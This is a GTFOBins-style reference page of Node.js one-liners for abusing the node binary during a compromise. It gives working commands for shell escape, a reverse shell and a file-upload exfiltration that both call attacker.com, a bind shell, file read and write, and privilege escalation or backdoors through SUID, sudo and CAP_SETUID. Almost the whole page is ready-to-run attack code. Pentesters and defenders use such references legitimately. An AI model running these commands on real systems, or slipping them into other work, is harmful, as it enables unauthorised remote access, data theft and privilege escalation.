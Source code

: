 # GTFOBin: node

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
```

## Reverse shell

It can send back a reverse shell to a listening attacker to open a remote network access.

Run `nc -l -p 12345` on the attacker box to receive the shell.

```
export RHOST=attacker.com
export RPORT=12345
node -e 'sh = require("child_process").spawn("/bin/sh");
require("net").connect(process.env.RPORT, process.env.RHOST, function () {
  this.pipe(sh.stdin);
  sh.stdout.pipe(this);
  sh.stderr.pipe(this);
})'
```

## Bind shell

It can bind a shell to a local port to allow remote network access.

Run `nc target.com 12345` on the attacker box to connect to the shell.

```
export LPORT=12345
node -e 'sh = require("child_process").spawn("/bin/sh");
require("net").createServer(function (client) {
  client.pipe(sh.stdin);
  sh.stdout.pipe(client);
  sh.stderr.pipe(client);
}).listen(process.env.LPORT)'
```

## File upload

It can exfiltrate files on the network.

Send a local file via HTTP POST request.

```
export URL=http://attacker.com
export LFILE=file_to_send
node -e 'require("fs").createReadStream(process.env.LFILE).pipe(require("http").request(process.env.URL))'
```

## File download

It can download remote files.

Fetch a remote file via HTTP GET request.

```
export URL=http://attacker.com/file_to_get
export LFILE=file_to_save
node -e 'require("http").get(process.env.URL, res => res.pipe(require("fs").createWriteStream(process.env.LFILE)))'
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```
node -e 'require("fs").writeFileSync("file_to_write", "DATA")'
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
node -e 'process.stdout.write(require("fs").readFileSync("/bin/ls"))'
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which node) .

./node -e 'require("child_process").spawn("/bin/sh", ["-p"], {stdio: [0, 1, 2]})'
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
```

## Capabilities

If the binary has the Linux `CAP_SETUID` capability set or it is executed by another binary with the capability set, it can be used as a backdoor to maintain privileged access by manipulating its own process UID.

```
cp $(which node) .
sudo setcap cap_setuid+ep node

./node -e 'process.setuid(0); require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
```